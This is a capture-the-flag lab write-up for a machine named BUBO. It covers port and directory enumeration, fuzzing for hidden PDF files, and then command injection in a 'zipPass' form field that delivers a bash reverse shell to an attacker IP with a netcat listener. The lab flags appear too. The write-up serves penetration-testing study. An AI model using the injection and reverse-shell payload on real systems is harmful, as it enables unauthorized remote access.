# **BUBO**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.206.121
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.206.121 -w /usr/share/wordlists/dirb/common.txt
```
 

No interesting endpoint found.

## **Explore the links mentioned in Home page**

 


 

- Fuzz other possible txt files present.

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 http://192.168.206.121/scientific/repository/data/FUZZ.txt
```
 

But no extra txt files found, those are same files mentioned in the home page.

## **Try to fuzz other file extensions**

- Try for pdf extension.
```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 http://192.168.206.121/scientific/repository/data/FUZZ.pdf
```

OR

```
ffuf -w /usr/share/seclists/Fuzzing/5-digits-00000-99999.txt -u http://192.168.206.121/scientific/repository/data/FUZZ -e .txt,.pdf,.md -mc 200,301,302 -t 50
```

 

OR 

 


- Found two PDF files.

 

- In the PDF file, a link was mentioned, try to access it. Then you can find the local.txt flag here.

 

### local.txt flag:  404e2ac8debbb56670d27319b73d46bc

---

## **PROOF.TXT**

## **Intercept the Data submission POST request**

 

- Try command injection for zipPass parameter, creata a reverse shell from https://www.revshells.com.

Payload:
```
zipPass=123|bash -c 'bash -i >& /dev/tcp/192.168.45.191/8090 0>&1'
```

 

- Url encode the payload.

Payload:
```
zipPass=123|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.191/8090+0>%261'
```

 

 

- To obtain a revershell, set up a Netcat listener on our kali linux machine on port 8090 
```
nc -nlvp 8090
```

- Now you can get the reverse shell. There is a proof.txt file is present. Now read that flag.   


   
### proof.txt flag: e4ae3b5de24d66fdfc0c908449743615

---

NOTE: Tool to detect Command Injectiom - [Commix](https://github.com/commixproject/commix ), but it did not work.

```
commix -u "http://192.168.206.121/personnelSubmission/index.php" --data="submissionData=Hi&passCheck=on&zipPass=INJECT_HERE" --level=3 --batch
```